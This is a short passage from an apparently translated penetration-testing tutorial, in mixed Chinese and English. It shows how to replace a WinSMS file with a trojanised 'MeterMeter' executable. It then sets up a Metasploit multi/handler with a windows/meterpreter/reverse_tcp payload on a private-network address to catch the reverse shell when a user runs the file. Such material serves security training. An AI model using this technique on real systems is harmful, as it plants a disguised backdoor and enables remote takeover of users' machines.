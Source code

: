     现在，我们用新创建的 MeterMeter 文件替换 WinSMS 文件：

    ![How to do it...](img/image_09_026.jpg)

    ![How to do it...](img/image_09_027.jpg)

4.  Now that we have placed the file, let's open a listener on our Metasploit and wait to see what happens when a user executes the file. Enter the following commands in the terminal to set up the Metasploit listener:

    ```
          msfconsole
          use exploit/multi/handler
          set payload windows/meterpreter/reverse_tcp
          set lhost 192.168.157.151
          set lport 443
          exploit

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_028.jpg)
